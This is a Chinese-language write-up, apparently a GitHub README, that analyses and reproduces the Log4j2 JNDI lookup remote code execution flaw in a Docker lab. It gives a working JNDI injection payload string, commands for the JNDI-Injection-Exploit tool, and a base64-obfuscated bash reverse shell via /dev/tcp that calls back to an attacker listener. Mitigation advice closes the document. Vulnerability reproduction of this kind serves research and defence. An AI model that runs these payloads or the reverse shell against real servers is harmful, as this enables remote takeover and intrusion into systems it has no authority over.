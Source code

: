 Apache Log4j远程代码执行漏洞分析与复现利用

0x1：漏洞描述
2021年12月9日，Apache Log4j 的远程代码执行漏洞细节被公开，大量的业务框架都使用了该组件。此次漏洞是用于 Log4j2 提供的 lookup 功能造成的，该功能允许开发者通过一些协议去读取相应环境中的配置。该漏洞一旦被攻击者利用会造成严重危害。经过快速分析和确认，该漏洞影响范围极其广泛，危害极其严重。
Apache Log4j2是一款优秀的Java日志框架。由于Apache Log4j2某些功能存在递归解析功能，未经身份验证的攻击者通过发送特别构造的数据请求包，可在目标服务器上执行任意代码，攻击者可直接构造恶意请求，触发远程代码执行漏洞。漏洞利用无需特殊配置，经验证Apache Struts2、Apache Solr、Apache Druid、Apache Flink等均受影响。

0x2：受影响版本
Apache Log4j 2.x <= 2.15.0-rc2

供应链影响范围，已知受影响应用及组件：
Apache Solr、Apache Flink、Apache Druid、srping-boot-strater-log4j2、dubbo、Flume、Redis

0x3：漏洞级别
高危、远程代码执行，目前漏洞rce-exp已网上公开，找到受影响的参数，提交
“${jndi:ldap://****. dnslog.cn/exp}”进行测试。

0x4：漏洞环境搭建与复现
漏洞靶场搭建，网上有搭建好的docker环境漏洞靶场，需要先安装docker环境

docker pull registry.cn-hangzhou.aliyuncs.com/fengxuan/log4j_vuln
![image](https://github.com/rabbitsafe/Apache-Log4j_RCE/blob/main/1.png) 
docker run -it -d -p 8888:8080 --name log4j_vuln_container registry.cn-hangzhou.aliyuncs.com/fengxuan/log4j_vuln 
docker exec -it log4j_vuln_container /bin/bash
/bin/bash /home/apache-tomcat-8.5.45/bin/startup.sh

执行完以上操作，可以访问存在Apache Log4j远程代码执行漏洞，这里192.168.32.168的ip地址是我安装了docker虚拟机的ip地址，url如下：
http://192.168.32.168:8888/webstudy/hello-fengxuan

由于该漏洞是jndi加载ldap协议就可以触发漏洞，使用
JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar进行ldap协议监听，并提前输入好需要执行的命令，命令如下：
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "touch /tmp/88888888888" -A 192.168.32.1
-C后面添加的是需要执行的命令
-A后面是监听的IP地址
 
只要根据JDK的版本，提交不同的ldap
如果JDK 是1.7，可以使用
ldap://192.168.32.1:1389/sjrchi
如果JDK 是1.8，可以使用
ldap://192.168.32.1:1389/fojm7q

通过BurpSuite提交数据包，由于url只接受需POST数据，受影响的参数是c，在验证的时候，一定要加入
Content-Type: application/x-www-form-urlencoded;
 
已经接收到ldap协议数据
 
如果Apache Log4j远程代码执行漏洞成功，就会执行命令touch /tmp/88888888888，在tmp目录下建一个88888888888文件

进入docker环境漏洞靶场，查看命令是否执行成功，文件成功被创建
docker exec -it log4j_vuln_container /bin/bash
 

通过修改-C里面的命令内容，获取shell
对bash -i >& /dev/tcp/192.168.32.1/22 0>&1命令进行加密处理
 
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjMyLjEvMjIgMD4mMQ==}|{base64,-d}|{bash,-i}" -A 192.168.32.1
 
 
成功获取shell
 

0x5：漏洞修复建议
1、升级Apache Log4j2组件到最新版本（log4j-2.15.0-rc2）：
https://github.com/apache/logging-log4j2/releases/tag/log4j-2.15.0-rc2
2、其他缓解措施：
（1）禁止没有必要的业务访问外网
（2）修改jvm参数 -Dlog4j2.formatMsgNoLookups=true
（3）修改配置log4j2.formatMsgNoLookups=True
（4）将系统环境变量 FORMAT_MESSAGES_PATTERN_DISABLE_LOOKUPS 设置为 true
（5）禁止使用Apache Log4j2服务器外连，升级JDK 11.0.1 8u191 7u201 6u211或更高版本。
